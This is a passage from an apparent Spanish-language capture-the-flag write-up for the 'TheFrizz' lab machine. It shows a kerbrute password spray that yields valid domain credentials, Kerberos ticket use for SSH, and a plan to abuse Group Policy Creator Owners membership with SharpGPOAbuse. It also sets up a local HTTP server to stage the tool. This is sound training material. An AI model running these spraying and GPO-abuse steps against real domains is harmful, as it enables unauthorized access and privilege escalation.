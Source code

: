 Ahora, creamos el archivo como una lista con los nombres y podemos utilizar `kerbrute`


```js
❯ kerbrute_linux_amd64 passwordspray -d frizz.htb --dc 10.10.11.60 content/users.txt '!suBcig@MehTed!R'

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 09/01/25 - Ronnie Flathers @ropnop

2025/09/01 06:35:37 >  Using KDC(s):
2025/09/01 06:35:37 >   10.10.11.60:88

2025/09/01 06:35:39 >  [+] VALID LOGIN:  M.SchoolBus@frizz.htb:!suBcig@MehTed!R
2025/09/01 06:35:39 >  Done! Tested 20 logins (1 successes) in 1.593 seconds

```

### PE - Abuso de membership


Ahora, con un hit del usuario `M.SchoolBus` podemos autenticarnos con `SSH` de la misma forma que lo hicimos con `f.frizzle`

```js
❯ getTGT.py frizz.htb/M.SchoolBus:'!suBcig@MehTed!R'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in M.SchoolBus.ccache

❯ KRB5CCNAME=M.SchoolBus.ccache ssh -K M.SchoolBus@frizzdc.frizz.htb

```

Y enumerando como siempre, tenemos un grupo muy interesante:

![UTMP]({{ "/images/TheFrizz/PE.png" | relative_url }})

`Group Policy Creator Owners` Que garantiza el crear Objetos de Políticas de Grupo; abusable para escalar privilegios. El path es el siguiente: Crear una política, linkearla con el dominio; y utilizando `SharpGPOAbuse` podemos ejecutar una tarea para obtener acceso (si no lo tienen, lo pueden [descargar acá](https://github.com/FSecureLABS/SharpGPOAbuse)). Solo es copiar y pegar el ejecutable en su directorio actual y montan un servidor http para que puedan descargarlo de forma remota (o utilizar scp).


En la máquina local
```bash
❯ python3 -m http.server 11602
```
